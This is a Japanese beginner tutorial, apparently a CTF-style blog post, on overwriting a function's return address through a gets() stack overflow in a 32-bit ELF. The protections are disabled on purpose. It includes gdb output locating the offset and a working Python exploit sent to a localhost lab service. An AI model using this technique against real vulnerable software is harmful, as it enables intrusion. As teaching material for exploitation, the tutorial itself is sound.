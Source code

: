 # PWNオーバーフロー入門: 関数の戻り番地を書き換える(SSP、ASLR、PIE無効で32bitELF)

## PWN対象のコード

```c:overflow02.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void flag()
{
  puts("flag is HANDAI_CTF");
  fflush(stdout);
}

void saru()
{
  char buf[16];

  gets(buf);
}

int main(){
  saru();

  return 0;
}
```

## PWN対象のコードをコンパイル

```bash-statement
saru@lucifen:~/pwn002$ gcc -m32 -no-pie -fno-stack-protector overflow02.c -o overflow02
overflow02.c: In function ‘saru’:
overflow02.c:16:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(buf);
   ^~~~
   fgets
/tmp/ccNHFUW1.o: In function `saru':
overflow02.c:(.text+0x59): warning: the `gets' function is dangerous and should not be used.
saru@lucifen:~/pwn002$
```
-m32を付けて32bitでコンパイル。

コンパイルできない場合は64bit環境で32bitのELFをコンパイルできない環境にある可能性があるのでgcc-multilibをインストール。

```bash-statement
$ sudo apt-get install gcc-multilib
```
-no-pieでPIEを無効化。

-fno-stack-protectorでSSPを無効化。

さらに

```bash-statement
$ sudo sysctl -w kernel.randomize_va_space=0
```

でASLRを無効化。
再起動の必要は無い。

## リターンアドレスを調べる

gdbで簡単に調べられる。

```bash-statement
saru@lucifen:~/pwn002$ gdb ./overflow02                                             GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./overflow02...(no debugging symbols found)...done.
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x80484a6 <flag>
gdb-peda$ q
saru@lucifen:~/pwn002$ 
```

つまり0x080484a6。

## 書き換えるリターンアドレスの場所を調べる

startした後niでずっと進めてgetsで読み込みになった後「ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefg」を入力してenter。

```bash-statement
[----------------------------------registers-----------------------------------]
EAX: 0xffffd4c0 ("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefg")
EBX: 0x58575655 ('UVWX')
ECX: 0xf7fc25c0 --> 0xfbad2288
EDX: 0xf7fc389c --> 0x0
ESI: 0xf7fc2000 --> 0x1d4d6c
EDI: 0x0
EBP: 0x62615a59 ('YZab')
ESP: 0xffffd4e0 --> 0xf7fe0067 (and    al,0x10)
EIP: 0x66656463 ('cdef')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x66656463
[------------------------------------stack-------------------------------------]
0000| 0xffffd4e0 --> 0xf7fe0067 (and    al,0x10)
0004| 0xffffd4e4 --> 0xffffd500 --> 0x1
0008| 0xffffd4e8 --> 0x0
0012| 0xffffd4ec --> 0xf7e05e81 (<__libc_start_main+241>:       add    esp,0x10)
0016| 0xffffd4f0 --> 0xf7fc2000 --> 0x1d4d6c
0020| 0xffffd4f4 --> 0xf7fc2000 --> 0x1d4d6c
0024| 0xffffd4f8 --> 0x0
0028| 0xffffd4fc --> 0xf7e05e81 (<__libc_start_main+241>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x66656463 in ?? ()
gdb-peda$
```

書き換えに成功してリターンアドレスが0x66656463になったことで落ちている。
つまり文字列で言うと「cdef」に書き換えられている。
つまり29～32文字目で書き換えられる。

## exploitなコード

```python:exploit02.py
import socket
import time



def main():
    buf = b'A' * 28 
    buf += b'\xa6\x84\x04\x08'
    buf += b'\n'
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("localhost", 28080))
    time.sleep(1)
    print(buf)
    sock.sendall(buf)
    s = sock.recv(100)
    print(s.decode(errors='replace'))



if __name__ == "__main__":
    main()
```

28文字Aを送った後に0xa6840408を送り付ける。

## 実行結果

```bash-statement
saru@lucifen:~/pwn002$ python exploit02.py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x84\x04\x08\n'
flag is HANDAI_CTF

saru@lucifen:~/pwn002$
```
というわけで成功！
